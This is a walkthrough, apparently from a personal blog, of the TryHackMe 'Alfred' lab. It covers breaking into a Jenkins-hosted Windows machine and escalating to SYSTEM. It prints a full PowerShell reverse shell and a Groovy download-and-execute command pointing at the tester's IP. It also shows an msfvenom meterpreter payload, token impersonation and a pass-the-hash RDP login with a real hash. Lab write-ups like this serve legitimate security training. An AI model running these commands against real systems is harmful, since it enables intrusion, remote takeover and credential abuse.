*2021-08-28*

*kimm3*

# Walkthrough: Alfred
Platform: TryHackMe

Difficulty: Easy

- [Link](https://tryhackme.com/room/alfred)

As this is a room on TryHackMe I don't explore every single possibility, I awnser the questions and move on. I won't post any awnsers to questions here, or even refer to them - just showing how to hack the box, as intended.
## Setup


```
script history
export IP=10.10.164.114
```
## Scans and enumeration
`sudo nmap $IP -p- -Pn -A -oA scans/nmap-init`





Index at port 80.



Index at port 8080. No need for brute-forcing here, it's the default username for both user and password.





We can run commands through the java/groovy interface.



The "seimpersonate" token is enabled. We might be albe to use that to get root, like in the [shield box on htb.](https://boxdocs.kimgard.com/wt-shield-pub/wt-shield.html) Let's get a shell first.
## Foothold
Let's try a PS reverse shell to get a foothold. I'll reuse the one from [Archetype](https://boxdocs.kimgard.com/wt-archetype-pub/wt-archetype.html#ms-sql-server).

**Prep:**
- Create a shell with your IP, `vim upload/shell.ps1`:
```
$client = New-Object System.Net.Sockets.TCPClient('10.8.210.115',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd) + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

- Host it with a http server:
```
cd upload
python3 -m http.server 80
```

- Set up a listener:
```
script history/target1
nc -lvnp 4242
```

**Execution:**
- Run command in groovyshell to execute.
```
print "powershell -c iex (new-object system.net.webclient).downloadstring('http://10.8.210.115/shell.ps1')".execute()
```





*Note*

The room wants you to use the [nishang Invoke-PowerShellTcp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) reveerse shell. Same but different.

### Shell to meterpreter
Let's make life easier with a meterpreter.

- Create a binary executable file with a meterpreter, using msfvenom.
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.210.115 LPORT=3131 -f exe -o upload/myshell.exe
```
- Transfer the file via powershell.
```
# The web server is up and running since before.
powershell -c "(new-object system.net.webclient).downloadfile('http://10.8.210.115/myshell.exe','myshell.exe')"
```


- Set up a handler in msfconsole.
```
script history/target2
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set LHOST
set RPORT
run
```
- Execute.
`start-process "myshell.exe"`


## Privilege Escalation
```
# meterpreter
load incognito
list_tokens -g
impersonate_token BUILTIN\\Administrators
getuid
ps
# find the pid of the services.exe or another process by "NT AUTHORITY\SYSTEM"
migrate 668
cat "C:\Windows\system32\config\root.txt"
```





## Post Exploitation


One thing I was able to do with the hashdump of bruce was to get a rdp desktop window of the box with freerdp and pass-the-hash.

`xfreerdp /u:bruce /pth:3ea0013c7eb26d63606673c34322b4ae /v:10.10.164.114:3389`



Tried to crack the password with 'rockyou.txt', but didn't work, leaving it for now.
